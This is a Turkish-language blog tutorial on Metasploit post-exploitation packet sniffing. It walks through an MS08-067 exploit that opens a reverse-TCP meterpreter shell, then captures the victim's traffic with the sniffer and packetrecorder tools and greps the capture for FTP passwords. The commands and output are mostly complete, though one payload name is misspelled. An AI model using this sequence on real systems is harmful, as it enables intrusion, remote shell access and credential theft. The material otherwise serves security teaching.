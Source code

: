 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Paket Dinleme



Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.



Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.



Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.



## Meterpreter Oturum Açalım



Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.


```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.126
msf exploit(ms08_067_netapi) > set RHOST 10.10.1.119
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(216 bytes)
> Sending stage (205824 bytes)
> Meterpreter session 1 opened (10.10.1.4:4444 -> 10.10.1.119:1921)
```



## Sinffer Modülünü Yükleyelim



Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.


```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```



## Dinlenebilir Arayüzler



Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.


```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```



## Dinlemeye Başlama



Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.


```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 (200000 packet buffer)
```



## Kayıtları Kontrol Etme



Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.


```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```



## packetrecorder Eklentisi



Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.



<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim


```bash
meterpreter > run packetrecorder 
Meterpreter Script for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```



Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.


```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
2 - 'Citrix XenServer PV Ethernet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
```



Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.


```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
[+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt 
[+] Stopping Packet sniffer...
meterpreter >
```



Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.


```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
